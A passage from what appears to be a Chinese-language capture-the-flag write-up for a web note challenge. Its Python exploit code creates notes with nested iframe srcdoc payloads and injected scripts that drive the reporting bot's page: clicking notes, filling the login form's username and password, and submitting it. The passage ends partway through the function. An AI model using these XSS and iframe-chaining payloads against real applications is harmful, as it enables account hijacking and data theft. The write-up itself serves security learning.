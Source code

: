 最後再去戳 report 頁面，讓 `bot` 到 ROOT 頁面即可。

```python=
def report(note_id, author):
    r = SESSION.post(URL + "report", data={"note_id": note_id, "author": author})
    return r
```

實作部分，具體程式碼如下：

```python=
def register_index_nonce_ascii_at(index):
    g1_id = create_note(
        f"{NONCE}_{index}_g1",
        script_to_html(f"setTimeout(()=>top.a.b.noteList.children[0].click(),0)"),
    )

    g2_id = create_note(
        f"{NONCE}_{index}_g2",
        script_to_html(
            "setTimeout(()=>top.a.c[&quot;login-form&quot;].username.value=`"
            + index_to_username(index)
            + "`,1000)"
        ),
    )

    g3_id = create_note(
        f"{NONCE}_{index}_g3",
        script_to_html(
            "setTimeout(()=>top.a.c[&quot;login-form&quot;].password.value=`"
            + index_to_username(index)
            + "`,1000)"
        ),
    )

    g4_id = create_note(
        f"{NONCE}_{index}_g4",
        script_to_html("setTimeout(()=>top.a.c[&quot;login-form&quot;].submit(),2000)"),
    )

    note2_id = create_note(
        f"{NONCE}_{index}_note2",
        '<iframe srcdoc="'
        + note_id_to_iframe(g3_id)
        + note_id_to_iframe(g4_id)
        + '"></iframe>',
    )

    note_1_id = create_note(
        f"{NONCE}_{index}_note1",
        '<iframe srcdoc="'
        + note_id_to_iframe(note2_id)
        + note_id_to_iframe(g2_id)
        + '"></iframe>',
    )

    note0_id = create_note(
        f"{NONCE}_{index}_note0",
        '<iframe srcdoc="'
        + note_id_to_iframe(note_1_id)
        + note_id_to_iframe(g1_id)
        + '"></iframe>',
    )

    root_id = create_note(
```